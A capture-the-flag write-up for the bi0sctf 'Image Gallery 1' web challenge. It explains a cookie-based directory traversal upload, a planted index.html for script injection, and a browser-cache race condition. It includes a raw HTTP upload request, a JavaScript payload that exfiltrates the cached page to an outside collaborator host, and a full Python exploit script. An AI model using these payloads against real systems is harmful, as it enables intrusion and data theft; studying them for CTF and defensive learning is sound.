

Image Gallery 1 is an enjoyable and interesting web challenge on bi0sctf, with 22 solves. It's a particularly fascinating for me because it involves exploiting the browser's local cache in a CTF scenario.

## Code Analysis

When examining the source code, we found several key functions with different paths:

### `/` (Root Path)

In the root path, the application requests the `sid` cookie, which serves as the identifier for the user session. If this cookie does not exist, does not comply with the uuid format or there is no folder with that name, a new `sid` is generated and a directory is created to store the user's files. On the other hand, if all these conditions are met, a dashboard listing the user's files is loaded. This means that we need to know a `sid` value in order to access their files and we will have to compromise the `sid` stored in the bot's cookie in order to get the flag.

```node
app.get('/', async (req, res) => {

  if (req.cookies.sid && /^[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{12}$/.test(req.cookies.sid)) {

    try {

      const files = btoa(JSON.stringify(fs.readdirSync(path.join(__dirname, `/public/${req.cookies.sid}`))));
      return res.render('index', { files: files, id: req.cookies.sid });
  
    } catch (err) {}  
  }

  let id = randomUUID();
  fs.mkdirSync(path.join(__dirname, `/public/${id}`))
  res.cookie('sid', id, { httpOnly: true }).render('index', { files: null, id: id });
  return;

});
```

### `/upload`

This endpoint allows users to upload files to their private directory. The application uses the `sid` cookie to determine the corresponding directory for each user. If the `sid` cookie does not exist or references a non-existent directory it will return an error.

```node
app.post('/upload', async (req, res) => {

  if (!req.files || !req.cookies.sid) {
    return res.status(400).send('Invalid request');
  }
  try {
    const uploadedFile = req.files.image;
    if (uploadedFile.size > maxSizeInBytes) {
      return res.status(400).send('File size exceeds the limit.');
    }
    await uploadedFile.mv(`./public/${req.cookies.sid}/${uploadedFile.name}`);
  } catch {
    return res.status(400).send('Invalid request');
  }

  res.status(200).redirect('/');
  return
})
```

### `/share`

This functionality forces the admin bot to visit the index page and view an image that has been shared with it. First, the bot opens the browser at the index of the web application (where its files are listed) and then loads the image shared with it using the parameter `?f`.

```node
app.post('/share', async (req, res) => {

  let id = req.body.id
  await visit(flag_id, id);
  res.send('Success')
  return

})
```

The `visit` function opens a Google Chrome instance to the index page, and these are the steps executed by the bot:

```node
page = await browser.newPage();

await page.goto(`http://localhost:3000/`);

await new Promise((resolve) => setTimeout(resolve, 3000));

await page.goto(
  `http://localhost:3000/?f=${id}`,
  { timeout: 5000 }
);

await new Promise((resolve) => setTimeout(resolve, 3000));
```

## Exploitation

It's evident from the analysis that the `sid` cookie isn't properly validated in the image upload function, leading to a directory traversal vulnerability. This security flaw allows us to arbitrarily manipulate the directory where uploaded images are stored and allows us to create or overwrite files in any directory where the web application has write permissions.

The vulnerable line in question is:

```javascript
await uploadedFile.mv('./public/${req.cookies.sid}/${uploadedFile.name}');
```

Exploiting this vulnerability involves abusing directory traversal to modify the destination where the uploaded file is stored. By manipulating the `sid` cookie and modifying the uploaded file's name, an attacker can gain full control over the picture's destination, potentially saving it into critical directories like `views` or `public`.

We have tried to overwrite the `index.ejs` template, which is the template used to render the `index`. However, the web server does not reload the new template automatically so it does not work for us.

After several tests, we have identified that we can upload an `index.html` file in the public folder to get the server to serve this file instead of rendering the original index. This way we have managed to execute javascript in the browser when accessing the index of the application.

This request creates an `index.html` page at the root of the web server and executes a javascript alert in the browser:

```http
POST /upload HTTP/1.1
Host: ch16747138482.ch.eng.run
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------86232577512429179423102893155
Origin: http://ch16747138334.ch.eng.run
Connection: close
Referer: http://ch16747138334.ch.eng.run/
Cookie: sid=00e5f7db-fc47-4c7b-ad2c-81defda5ffee/../../public/
Upgrade-Insecure-Requests: 1

-----------------------------86232577512429179423102893155
Content-Disposition: form-data; name="image"; filename="index.html"

<script>alert();</script>

-----------------------------86232577512429179423102893155--
```

At this point we have managed to execute JavaScript code in the admin bot's browser (forcing it to visit a file using `/share`). However, due to the `HttpOnly` flag in `sid` cookie we were unable to steal its secret so we cannot access the flag either.

The only alternative way to list the bot files, without having to compromise the `sid` cookie, is to read the contents of the bot index page since that is where the flag location is (the `sid` is the name of the bot's private folder). Unfortunately, once the `index.html` file has been uploaded, it is no longer possible to access this information. 

However, we have identified a race condition during the bot's visit to the shared image. The bot, instead of directly accessing the requested image in the index, first opens the browser in the index page. Thus, during the opening of the browser, the original content of the bot index (where the flag is listed) is cached in the bot browser and we can use the second visit of the bot to make it execute our javascript and exfiltrate the original content of the previously cached index.

These are the steps we have followed to access the bot index and know the location of the flag:

1. We request the bot to visit a file using the share function.
2. The bot opens its browser and visits its legitimate `index` page. (Where the flag location is printed)
3. We upload `index.html` with injected JavaScript code. <-- race condition
4. The bot accesses `/?f={our image location}` and executes the injected JavaScript code.
5. Our JavaScript code retrieves the content of `/` (index) using cache and exfiltrates it to our web server, redirecting the bot to our page.

Below is the JavaScript script that orchestrates the described attack in the bot's browser:

```javascript
<script>
fetch('http://localhost:3000/', { cache: "force-cache" })
  .then(response => response.text())
  .then(text => {
    const index = text.indexOf("modal.show");
    if (index !== -1) {
      const textAfterGallery = text.substring(index + "modal.show".length);
      window.location = "https://{our_web_server}/" + encodeURI(textAfterGallery);
    }
  })
  .catch(error => console.error('Error fetching data:', error));
</script>
```

The use of `{ cache: "force-cache" }` is crucial in this context to force the browser to use the cache when accessing the previously loaded index. Once the script obtains the cached content, it urlencodes it and exfiltrates it to our server through a browser redirection.

# Exploit

This is the script we have used to solve the challenge. The script launches asynchronously 5 times the `/share` functionality for the bot to start its visit to the web page. After waiting a few seconds it executes the request that uploads the `index.html` file with the malicious code. In this way we manage to exploit the race condition that we have explained.

In order to determine the appropriate delays, the time has been progressively increased until the race condition has been successfully exploited.

```python
import aiohttp
import asyncio
import requests

host = "ch16747139502.ch.eng.run"

async def upload():

    print("upload init")
    url = "http://{}/upload".format(host)
    headers = {
        "Cookie": "sid=../public/",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Content-Length": "839",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1",
        "Te": "trailers"
    }

    files = {
        'image': ('index.html', 
                  '<script>\nfetch(\'http://localhost:3000/\', { cache: "force-cache" })\n  .then(response => response.text())\n  .then(text => {\n    const index = text.indexOf("modal.show");\n    if (index !== -1) {\n      const textAfterGallery = text.substring(index + "modal.show".length);\n      // Redireccionar con el texto obtenido\n      window.location = "https://rfaz53n9kf43qi85mzh9vnrd94fv3k.oastify.com/" + encodeURI(textAfterGallery);\n    } else {\n      console.error(\'No se encontró la cadena "modal.show" en la respuesta.\');\n    }\n  })\n  .catch(error => console.error(\'Error fetching data:\', error));\n</script>',
                  'image/jpeg')
    }

    r = requests.post(url, headers=headers, files=files)
    print("upload hit")
    print(r.text)


async def share():

    global host
    print("share init")
    url = "http://{}/share".format(host)
    headers = {
        "Cookie": "sid=b01a8531-88f9-4f31-8d8d-b24e317b91a",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0",
        "Accept": "*/*",
        "Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/json",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Sec-Fetch-Dest": "empty",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Site": "same-origin",
        "Te": "trailers"
    }

    data = {
        "id": "https://rfaz53n9kf43qi85mzh9vnrd94fv3k.oastify.com/share"
    }

    async with aiohttp.ClientSession() as session:
        async with session.post(url, headers=headers, json=data) as response:
            print("share hit")
            print("Status code:", response.status)


async def main():
    tasks = []

    for _ in range(5):
        tasks.append(asyncio.create_task(share()))
        await asyncio.sleep(3)

    await upload()
    await asyncio.gather(*tasks)

asyncio.run(main())


# Flag: bi0sctf{bDwj/VvYs+s2WJ+pQNIvTg==}
```


When the exploit is executed the bot will be redirected to our web server (we use burp collaborator) sending the original content of the index as parameter:

